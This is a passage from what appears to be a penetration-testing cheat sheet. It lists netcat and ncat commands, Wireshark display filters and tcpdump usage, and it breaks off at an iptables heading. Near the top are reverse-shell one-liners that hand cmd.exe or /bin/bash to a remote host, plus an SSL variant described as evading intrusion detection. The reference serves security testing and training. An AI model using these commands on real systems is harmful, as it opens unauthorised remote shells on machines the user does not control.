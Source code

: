        `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`

    -   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`

    -   Netcat for Banner Grabbing:

        `echo "" | nc -nv -w1 <IP Address> <Ports>`

-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS

    -   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    -   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`

-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:

        `tcp.port eq 25 or icmp`

    -   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:

        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`

    -   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:

        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`

    -   Some commands are equal

        `ip.addr == xxx.xxx.xxx.xxx`

         Equals

        `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx `

        ` ip.addr != xxx.xxx.xxx.xxx`

         Equals

        `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`

-   TCP Dump

    -   Display a pcap file  
       `tcpdump -r passwordz.pcap`

    -   Display ips and filter and sort  
        `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`

    -   Grab a packet capture on port 80  
        `tcpdump tcp port 80 -w output.pcap -i eth0`

    -   Check for ACK or PSH flag set in a TCP packet  
        `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`

-   IP Tables 

    -   Deny traffic to ports except for Local Loopback
